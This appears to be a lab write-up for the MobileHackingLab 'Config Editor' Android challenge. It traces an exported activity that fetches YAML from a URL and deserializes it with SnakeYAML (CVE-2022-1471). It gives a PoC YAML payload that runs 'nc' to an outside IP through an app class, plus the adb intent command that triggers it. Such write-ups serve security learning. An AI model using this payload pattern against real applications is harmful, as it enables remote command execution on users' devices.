





# MobileHackingLab - Config Editor

## Static Analysis

After decompiling the APK, I noticed that the exported `MainActivity` has a particular Intent filter accepting yaml data, possibly from external sources since `http` and `https` are allowed schemas. 



The `handleIntent` function in the `MainActivity` copies a yaml file content from the URI (line 191) and then runs the `loadYaml` function on the copied file (line 207).



The `loadYaml` function parses the provided yaml and deserializes it (lines 223-224):



The library used to perform these operation is `org.yaml.snakeyaml`.

## Exploitation

It seems that snakeyaml has a deserialization vulnerability, possibly allowing an attacker to perform a remote command execution, as described there: [CVE-2022-1471](https://www.greynoise.io/blog/cve-2022-1471-snakeyaml-deserialization-deep-dive).

In the reversed code, the class `LegacyCommandUtil` is perfect to achieve a RCE exploiting the deserialization vulnerability:



The PoC yaml is constructed as follows:

```yaml
poc: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [!!java.lang.String ['nc 192.168.57.1 8080']]
```

After setting up an http server hosting the PoC yaml, an intent is launched by running:

```shell
adb shell am start -n "com.mobilehackinglab.configeditor/.MainActivity" -a android.intent.action.VIEW -d 'http://192.168.57.1:8000/poc.yml'
```

The application will then load the PoC content, triggering the deserialization vulnerability and running the command:

